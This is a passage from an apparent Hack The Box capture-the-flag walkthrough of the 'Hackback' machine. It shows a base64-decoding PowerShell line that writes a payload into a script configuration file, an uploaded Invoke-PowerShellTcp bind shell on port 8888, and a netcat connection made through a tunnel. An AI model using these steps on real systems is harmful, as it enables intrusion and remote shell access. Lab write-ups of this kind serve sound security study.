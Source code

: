 ```
$a = [System.Convert]::FromBase64String("W01haW5...ZmlsZXMK"); $b = [System.Text.Encoding]::UTF8.GetString($a); echo $b > c:\util\scripts\clean.ini
```

Of course, we also need to upload `bs.ps1`, which is `Invoke-PowerShellTcp.ps1` with the bind shell configuration appended at the end of the file.

```
Invoke-PowerShellTcp -Bind -Port 8888
```

Once that's done, we just have to wait for `hacker` to execute our 'payload'.

<a class="image-popup">
![b05469d5.png](/assets/images/posts/hackback-htb-walkthrough/b05469d5.png)
</a>

Although the firewall only allows inbound connections to three ports, we still have our tunnel going on. As such, we can simply `nc` to the box through the tunnel.

<a class="image-popup">
![b595cb6a.png](/assets/images/posts/hackback-htb-walkthrough/b595cb6a.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/176
[2]: https://www.hackthebox.eu/home/users/profile/1391
[3]: https://www.hackthebox.eu/home/users/profile/12438
[4]: https://www.hackthebox.eu/